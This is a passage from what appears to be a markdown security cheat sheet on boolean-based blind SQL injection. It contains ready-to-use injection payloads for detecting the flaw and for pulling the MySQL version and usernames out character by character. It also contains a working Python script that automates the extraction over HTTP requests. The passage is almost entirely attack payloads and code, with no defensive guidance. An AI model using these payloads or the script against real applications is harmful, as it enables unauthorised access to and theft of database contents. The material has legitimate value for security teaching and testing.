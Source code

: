 ### 2. 🕵️ Blind SQL Injection

#### Boolean-Based Blind SQL Injection
No direct output, but application behavior changes based on true/false conditions.

**Detection:**
```sql
-- Test for vulnerability
1 AND 1=1--    (normal response)
1 AND 1=2--    (different response)
```

**Data Extraction:**
```sql
-- Extract database version character by character
1 AND (SELECT SUBSTRING(@@version,1,1))='5'--    (MySQL 5.x)
1 AND (SELECT SUBSTRING(@@version,1,1))='8'--    (MySQL 8.x)

-- Extract username length
1 AND (SELECT LENGTH(username) FROM users WHERE id=1)=5--

-- Extract username character by character
1 AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
1 AND (SELECT SUBSTRING(username,2,1) FROM users WHERE id=1)='d'--
1 AND (SELECT SUBSTRING(username,3,1) FROM users WHERE id=1)='m'--
```

**Automated Boolean-Based Extraction Script:**
```python
import requests
import string

def extract_data(url, injection_point, query_template):
    result = ""
    position = 1
    
    while True:
        found_char = False
        for char in string.printable:
            # Build the injection payload
            payload = query_template.format(position=position, char=ord(char))
            
            # Send request
            response = requests.get(url + injection_point + payload)
            
            # Check if condition is true (customize based on application)
            if "Welcome" in response.text:  # Adjust condition
                result += char
                found_char = True
                print(f"Found character: {char} at position {position}")
                break
        
        if not found_char:
            break
        position += 1
    
    return result

# Usage example
url = "http://example.com/page.php?id="
injection_point = "1 AND (SELECT SUBSTRING(username,{position},1) FROM users WHERE id=1)=CHAR({char})--"
username = extract_data(url, "", injection_point)
```

